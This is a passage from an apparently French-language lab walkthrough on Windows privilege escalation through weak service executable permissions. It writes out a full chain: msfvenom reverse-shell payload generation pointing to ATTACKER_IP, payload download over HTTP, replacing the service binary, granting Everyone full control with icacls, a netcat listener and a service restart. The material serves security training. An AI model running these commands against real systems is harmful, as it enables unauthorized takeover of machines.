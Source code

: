 Et là, nous avons quelque chose d'intéressant. Le groupe Everyone a des permissions de modification (M) sur l'exécutable du service. Cela signifie que nous pouvons simplement l'écraser avec n'importe quelle charge utile de notre choix, et le service l'exécutera avec les privilèges du compte d'utilisateur configuré.

Générons une charge utile exe-service à l'aide de msfvenom et servons-la via un serveur web python :

```bash
user@attackerpc$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe

user@attackerpc$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Nous pouvons ensuite extraire la charge utile à partir de Powershell avec la commande suivante :

```powershell
wget http://ATTACKER_IP:8000/rev-svc.exe -O rev-svc.exe
```

Une fois que la charge utile se trouve dans le serveur Windows, nous remplaçons l'exécutable du service par notre charge utile. Comme nous avons besoin d'un autre utilisateur pour exécuter notre charge utile, nous devons également accorder toutes les autorisations au groupe Tout le monde :

```cmd
C:\> cd C:\PROGRA~2\SYSTEM~1\

C:\PROGRA~2\SYSTEM~1> move WService.exe WService.exe.bkp
        1 file(s) moved.

C:\PROGRA~2\SYSTEM~1> move C:\Users\thm-unpriv\rev-svc.exe WService.exe
        1 file(s) moved.

C:\PROGRA~2\SYSTEM~1> icacls WService.exe /grant Everyone:F
        Successfully processed 1 files.
```

Nous lançons une écoute inversée sur la machine de l'attaquant :

```bash
nc -lvnp 4445
```
Enfin, redémarrez le service. Alors que dans un scénario normal, vous devriez attendre le redémarrage du service, on vous a attribué des privilèges pour redémarrer le service vous-même afin de vous faire gagner du temps. Utilisez les commandes suivantes à partir d'une invite de commande cmd.exe :

```cmd
C:\> sc stop windowsscheduler
C:\> sc start windowsscheduler
```


Remarque : PowerShell utilise `sc` comme alias de `Set-Content`, vous devez donc utiliser `sc.exe` pour contrôler les services avec PowerShell de cette manière.

### Chemins de service mal formatés (Unquotted Service Paths)
